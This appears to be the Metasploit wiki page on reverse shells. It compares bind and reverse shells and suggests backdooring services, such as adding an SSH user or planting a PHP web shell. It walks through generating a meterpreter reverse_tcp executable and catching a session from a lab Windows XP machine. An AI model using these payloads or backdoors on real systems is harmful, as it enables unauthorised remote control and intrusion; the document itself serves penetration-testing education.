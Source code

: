 There are two popular types of shells: bind and reverse. A bind shell is the kind that opens up a new service on the target machine, and requires the attacker to connect to it in order to get a session. A reverse shell (also known as a connect-back) is the exact opposite: it requires the attacker to set up a listener first on his box, the target machine acts as a client connecting to that listener, and then finally the attacker receives the shell.

The basic usage of payloads is already quite well documented in the [Users Guide](https://github.com/rapid7/metasploit-framework/blob/master/documentation/users_guide_4.3.pdf) in Metasploit's documentation folder. However, learning how to use a reverse shell still remains the most common question in the Metasploit community. Plus, 9 times out of 10 you'd probably be using a reverse shell to get a session, so in this wiki documentation we will explain more about this.

## List of Metasploit reverse shells

As of now, there are 168 different reverse shells in the Metasploit Framework. We will not list all of them here, because that's just straight up spamming. But if you'd like, you can run the following command to get msfpayload to tell you:

```bash
./msfpayload -l |grep reverse
```

As a rule of thumb, always pick a meterpreter, because it currently provides better support of post exploitation Metasploit has to offer. For example, railgun, post modules, unique meterpreter commands (like webcam controls), etc.

In Windows, the most commonly used reverse shell is windows/meterpreter/reverse. But you can also try windows/meterpreter/reverse_http or windows/meterpreter/reverse_https, because their network traffic appear a little bit less abnormal.

In Linux, you can also try linux/x86/meterpreter/reverse_tcp, or the 64-bit one. However, just know that linux/x86/shell_reverse_tcp has been the most stable.

## When to use a reverse shell

If you find yourself in one of the following scenarios (but not limited to), then you should consider using a reverse shell:

* The target machine is behind a different private network.
* The target machine's firewall blocks incoming connection attempts to your bindshell.
* Your payload is unable to bind the port it wants due to whatever reason.
* You simply can't decide what to choose.

## When a reverse shell isn't needed

Generally speaking, if you can backdoor an existing service, you may not need a reverse shell. For example: if the target machine is already running a SSH server, then you can try adding a new user to it and use that.

If the target machine is running a web server that supports a server-side programming language, then you can leave a backdoor in that language. For example, many Apache servers support PHP, then you can use a PHP "web shell". IIS servers usually support ASP, or ASP.net. The Metasploit Framework offers payloads in all these languages (and many others).

Same thing for VNC, remote desktop, or other remote admin tools, etc.

## How to set up for a reverse shell during payload generation

When you generate a reverse shell with either msfpayload or msfvenom, you must know how to configure the following:

* **LHOST** - This is the IP address you want your target machine to connect to, literally. If you're in a local area network, it is unlikely your target machine can actually reach you unless you both are in the same network. In that case, you will have to [find out your public-facing IP address](https://www.google.com/webhp?q=ip#q=ip), and then configure your network to port-forward that connection to your box. LHOST should not be "localhost", or "0.0.0.0", or "127.0.0.1", basically if you do, you're telling the target machine to connect to itself.
* **LPORT** - This the port you want your target machine to connect to.

When you set up a listener for the reverse shell, you also at least need to configure LHOST and LPORT, but slightly different meanings (different perspective):

* **LHOST** - This is the IP address you want your listener to bind to.
* **LPORT** - This is the port you want your listener to bind to.

You should make sure the listener has started first before executing the reverse shell.

## Demonstration

In this demonstration, we have two boxes:

**Box A:**

* The attacker's box that receives the payload session
* IP is: 192.168.1.123 (ifconfig)
* On the same network as the victim machine

**Box B:**

* The "victim" machine
* Windows XP
* IP is: 192.168.1.80 (ipconfig)
* On the same network as the attacker machine
* For testing purposes, no antivirus enabled.
* For testing purposes, no firewall enabled, either.

**Step 1: I generate my executable payload:**

On the attacker's box, I run msfpayload like the following (or msfvenom, whatever you prefer):


```bash
$ ./msfpayload windows/meterpreter/reverse_tcp lhost=192.168.1.123 lport=4444 X > /tmp/iambad.exe  
Created by msfpayload (http://www.metasploit.com).  
Payload: windows/meterpreter/reverse_tcp  
Length: 287  
Options: {"LHOST"=>"192.168.1.123", "LPORT"=>"4444"}  
```

**Step 2: I copy my executable payload to Box B (my victim machine)**
 
This step requires no further explanation.

**Step 3: I set up my payload handler on box A (the attacker's box):**

```bash
$ ./msfconsole -q  
msf > use exploit/multi/handler  
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp  
payload => windows/meterpreter/reverse_tcp  
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123 
msf exploit(handler) > set lport 4444  
lport => 4444  
msf exploit(handler) > run  
  
[*] Started reverse handler on 192.168.1.123:4444  
[*] Starting the payload handler...  
```

**Step 4: I double-click on the malicious executable**
 
This step requires no further explanation.
 
**Step 5: I should see a meterpreter/payload session on box A (the attacker's box)**
 
Like this:


```bash
$ ./msfconsole -q  
msf > use exploit/multi/handler  
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp  
payload => windows/meterpreter/reverse_tcp  
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444  
lport => 4444  
msf exploit(handler) > run  
  
[*] Started reverse handler on 192.168.1.123:4444  
[*] Starting the payload handler...  
[*] Sending stage (770048 bytes) to 192.168.1.80  
[*] Meterpreter session 1 opened (192.168.1.123:4444 -> 192.168.1.80:1138) at 2014-10-22 19:03:43 -0500  
meterpreter >  
```

The meterpreter prompt means you are currently interacting with the payload.